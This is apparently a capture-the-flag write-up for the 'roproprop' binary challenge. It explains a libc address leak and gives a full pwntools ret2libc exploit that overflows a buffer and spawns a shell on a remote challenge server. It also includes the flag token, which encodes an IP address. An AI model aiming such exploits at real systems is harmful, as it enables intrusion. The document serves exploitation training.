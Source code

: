 # roproprop

> Flag: FLAG{eyJhbGciOiJIUzI1NiJ9.eyJjaGFsIjoid2FyNi1yb3Byb3Byb3AiLCJpcCI6IjIwMi44Ny4xNjIuMjgiLCJzZXNzaW9uIjoiNjM0YmE2YjUtZjgzYy00NGJhLTgwY2QtMjE2M2M1MThmYWJjIn0.QBYFtzudJR1gRfe1tslQ_kfwkRIIEnCa7XZURguYosk}

## Scenario

The program has PIE enabled, meaning that an address leak is required to calculate offsets in the program. Libc is linked to this binary, so functions and gadgets can be found from the libc library.

## Solution

The the address of `setbuf` is given, which has an offset of `0x65ff0` from the libc base. This allows us to calculate the runtime address of the `system()` function, as well as the runtime address of the `"/bin/sh"` string.

## Script

```python3
from pwn import *

'''
Arch:     i386-32-little
RELRO:    Full RELRO
Stack:    No canary found
NX:       NX enabled
PIE:      PIE enabled
'''

"""
read(0, ebp-0x4ca, 0x192f)
"""

# p = process("./roproprop")
p = remote("plsdonthaq.me", 6003)

# 0xf7d5a000 0xf7eb5000 r-xp   15b000 1d000  /usr/lib/i386-linux-gnu/libc-2.31.so
p.recvuntil("- ")
leak = int(p.recvuntil(" -", drop=True), 16) # ebx+0x1c || setbuf@GOT
setbuf_offset = 0x65ff0
libc_base = leak - setbuf_offset
print(f"Leaked libc base: {hex(libc_base)}")

'''
0x15ba0b: "/bin/sh\0"
0x3ada0: system()
'''

payload = b""
payload += b'\x90' * (0x4ca+4)
payload += p32(libc_base + 0x3ada0)
payload += b'....'
payload += p32(libc_base + 0x15ba0b)

p.sendline(payload)
p.interactive()
```

